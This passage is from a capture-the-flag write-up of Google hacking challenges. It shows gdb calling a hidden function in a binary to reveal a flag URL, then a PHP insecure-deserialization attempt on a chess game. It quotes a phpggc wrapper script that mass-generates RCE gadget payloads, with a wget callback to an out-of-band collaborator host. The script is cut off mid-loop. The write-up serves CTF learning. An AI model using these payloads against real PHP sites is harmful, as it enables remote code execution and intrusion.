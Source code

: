 ``` hl_lines="26"
0x00005555555835ca  count_ones
0x00005555555835f7  extract31
0x00005555555836c4  time_now
0x0000555555583747  totp
0x000055555558378e  correct_code
0x0000555555583817  print
0x0000555555583876  main
```

We can use start to run the program and automatically break on `main ()`:

```
(gdb) start
Temporary breakpoint 1 at 0x2f87a
Starting program: /home/alois_thevenot/wannacry

Temporary breakpoint 1, 0x000055555558387a in main ()
```

We can now manually call the `print` function which will display the URL used to retrieve the flag:

```
(gdb) p (void) 0x0000555555583817 ()
https://wannacry-killswitch-dot-gweb-h4ck1ng-g00gl3.uc.r.appspot.com//ocelot$1 = void
```

Flag: https://h4ck1ng.google/solve/who_turned_off_the_lights

!!!info
    I wasn't able to debug the binary inside Docker since apparantly QEMU's user-mode emulation does not support the ptrace system call.

## Challenge 03 - Hacker Chess 2

[Hacker Chess is back](/blog/hacking-google-ep000-operation-aurora/#challenge-01-hacker-chess), sadly the SQL injection is not present anymore so we will need to find another way to beat the AI.

The first thing I thought about was to check the potential insecure deserialization vulnerability[^insecure-deserialization] since when you move a piece on the board a GET request is sent along with a base64 encoded serialized string: `GET /?move_end=YToyOntpOjA7czoyOiJmMiI7aToxO3M6MjoiZjQiO30=`, decoded it looks like this: `a:2:{i:0;s:2:"f2";i:1;s:2:"f4";}` which translates to move the piece in `F2` to `F4`.

[^insecure-deserialization]: [Insecure deserialization](https://portswigger.net/web-security/deserialization)

To exploit a deserialization vulnerability you need a vulnerable class implementing magic methods such as `__toString`, `__destruct` or `__wakeup`. Since we don't have the source code and no idea about what vulnerable classes could be loaded the only thing we can try so far is to send known payload exploiting common vulnerable classes.

I used this script by [honoki](https://twitter.com/honoki) to generate all the RCE payload for every gadget chain in [phpggc](https://github.com/ambionics/phpggc) but this did not work:

```bash
#!/bin/bash

# phpggc wrapper that automatically generates payloads for RCE gadgets

function="system"
command="wget http://your.burpcollaborator.net/?"
# modify the options below depending on your use case
options="-a -b -u -f"

# generate gadget chains
./phpggc -l | grep RCE | cut -d' ' -f1 | xargs -L 1 ./phpggc -i | grep 'phpggc ' --line-buffered |
while read line;  do
   gadget=$(echo $line | cut -d' ' -f2) &&
   if echo $line | grep -q "<function> <parameter>"; then
      ./phpggc $options $gadget "$function" "$command?$(date +%s)"
   elif echo $line | grep -q "<code>"; then
```

[^docker-for-pentester]: [Docker for Pentesters](https://blog.ropnop.com/docker-for-pentesters/)
[^ssrf]: [Server-side request forgery (SSRF)](https://portswigger.net/web-security/ssrf)
